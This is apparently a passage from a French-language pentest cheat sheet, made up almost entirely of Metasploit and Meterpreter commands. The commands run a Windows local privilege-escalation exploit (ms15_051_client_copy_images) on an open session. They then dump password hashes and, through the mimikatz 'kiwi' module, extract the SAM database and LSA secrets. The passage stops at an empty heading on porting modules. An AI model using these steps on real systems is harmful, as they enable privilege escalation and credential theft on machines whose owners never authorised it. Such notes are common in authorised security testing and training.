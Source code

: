 use d'un exploit trouvé

```msfconsole
use exploit/windows/local/ms15_051_client_copy_images
```

afficher les options

```msfconsole
options
```

attacher à la session et run

```msfconsole
set session <id>
```

```msfconsole
run
```


## Dump Hashes

Dump de la base SAM

```meterpreter
hashdump
```

### Kiwi

> [!TIP]
> Module mimikatz

Charger le module

```meterpreter
load kiwi
```

afficher les commandes

```meterpreter
help
```

Dump de la base SAM

```meterpreter
lsa_dump_sam
```

Dump de la base LSA

```meterpreter
lsa_dump_secrets
```

# PORTAGE DE MODULES
